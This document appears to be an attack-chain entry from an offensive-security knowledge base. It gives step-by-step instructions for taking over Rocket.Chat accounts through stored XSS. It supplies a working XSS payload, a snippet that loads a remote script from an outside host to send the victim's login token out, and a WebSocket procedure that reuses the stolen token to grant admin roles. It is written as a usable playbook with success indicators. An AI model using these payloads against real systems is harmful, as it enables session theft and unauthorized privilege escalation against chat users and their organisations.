

---
tags:
  - xss
  - stored-xss
  - account-takeover
  - rocket-chat
  - javascript
  - websocket
  - token-theft
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
  - Desktop (Electron)
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-and-Send-Malicious-XSS-Payload]]'
  - '[[procedures/Trigger-XSS-on-Message-View]]'
  - '[[procedures/Steal-Victims-Login-Token]]'
  - '[[procedures/Authenticate-and-Escalate-via-WebSocket]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Steal Web Session Cookie]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-14T17:33:24.260Z'
description: >-
  Multi-stage attack exploiting stored XSS in Rocket.Chat's chat message
  rendering to steal login tokens and achieve account takeover via WebSocket
  authentication.
skill_level: intermediate
impact_level: high
id: d00ff173-93fe-4bb1-8d4a-28cbbd689517
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Steal Web Session Cookie]]'
  - '[[Valid Accounts]]'
---
# Account Takeover via Stored XSS in Rocket.Chat

Multi-stage attack chain exploiting a stored XSS vulnerability in Rocket.Chat's message rendering, combining Markdown and AutoLinker parsers to inject malicious JavaScript. This allows stealing the victim's login token from localStorage, authenticating via WebSocket to takeover the account, change passwords, assign admin roles, and even achieve RCE in the Desktop client.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for crafting payloads
- Access to a Rocket.Chat instance (user account)

### Target Environment

- Rocket.Chat Server (Web interface)
- Rocket.Chat-Desktop Client (for RCE extension)
- Services: WebSocket (SockJS) on port 443 or 3000
- Tech Stack: Node.js, Markdown parser, AutoLinker, Meteor

### Initial Access Requirements

- Valid user account in Rocket.Chat
- Ability to send messages in a channel
- Victim interaction (viewing the message)
- Network access to the Rocket.Chat server

## Detailed Attack Procedures

### Step 1: Craft and Send Malicious XSS Payload
procedure: [[procedures/Craft-and-Send-Malicious-XSS-Payload]]

**Objective**: Create a payload that exploits the parsing order of Markdown inline-code, URL handling, and AutoLinker to breakout of HTML attributes and inject executable JavaScript.

**Instructions**: Use the browser console or a script to craft the payload, then send it as a chat message in a channel the victim will view. Example payload using [[commands/rocket-chat-xss-payload-alert]]:

```javascript
https://a?p=[ ](https:// style=animation-duration:1s;animation-name:blink;animation-iteration-count:2 onanimationiteration=Array.prototype[Symbol.hasInstance]=eval,'alert\x28\x27XSS\x27\x29;'instanceof[] target=_blank data-x=`.")
```

Send this via the chat interface.

**Expected Output**: Message appears as a link but renders with injected attributes triggering JS on view.

**Success Indicators**:
- Payload sent without sanitization errors
- Message visible in chat history

### Step 2: Trigger XSS on Message View
procedure: [[procedures/Trigger-XSS-on-Message-View]]

**Objective**: Have the victim view the message, causing the parsers to misprocess the payload and execute the injected JavaScript via animation events and prototype overrides.

**Instructions**: Direct the victim to the channel or ensure they refresh/view the chat. The rendering process breaks out of the href attribute, injecting style and onanimationiteration, leading to eval execution.

No direct command needed; relies on victim interaction.

**Expected Output**: Alert('XSS') or script execution in victim's browser console.

**Success Indicators**:
- JS executes (visible via alert or network requests)
- No parsing errors in server logs

### Step 3: Steal Victim's Login Token
procedure: [[procedures/Steal-Victims-Login-Token]]

**Objective**: Use the XSS to access localStorage or cookies, exfiltrate the Meteor login token, and optionally load external scripts for further actions.

**Instructions**: The payload includes code to grab the token. Extend with [[commands/rocket-chat-load-external-script]] to load a remote script:

```javascript
s=document.createElement('script');s.src='https://sectex.dev/files/cswsh.js';document.body.appendChild(s);
```

This loads a script that can send the token to an attacker-controlled server.

**Expected Output**: Token retrieved (e.g., localStorage.getItem('Meteor.loginToken')) and exfiltrated via fetch or img src.

**Success Indicators**:
- Token value obtained in console
- External script loads (network tab shows request)

### Step 4: Authenticate and Escalate via WebSocket
procedure: [[procedures/Authenticate-and-Escalate-via-WebSocket]]

**Objective**: Use the stolen token to connect via WebSocket, resume the session, and perform privileged actions like assigning admin roles.

**Instructions**: On the attacker's side, execute [[commands/rocket-chat-websocket-takeover]] with the stolen token:

```javascript
let ws = new WebSocket(`wss://${window.location.host}/sockjs/111/evilwss/websocket`); // Handle messages, login with token, update user roles
```

Replace placeholders like {ATTACKER_USERID} and send method calls to insertOrUpdateUser.

**Expected Output**: WebSocket connects, login succeeds, user roles updated to include 'admin'.

**Success Indicators**:
- Server responds with connected session
- Attacker gains admin access in their account

## Attack Chain Summary

### Key Achievements

1. Successful XSS payload delivery and execution
2. Theft of victim's login token enabling session hijacking
3. Account takeover with privilege escalation to admin
4. Potential extension to RCE in Desktop client via file reads

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript
- [[Steal Web Session Cookie]] Steal Web Session Cookie
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Collection]] Collection
- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
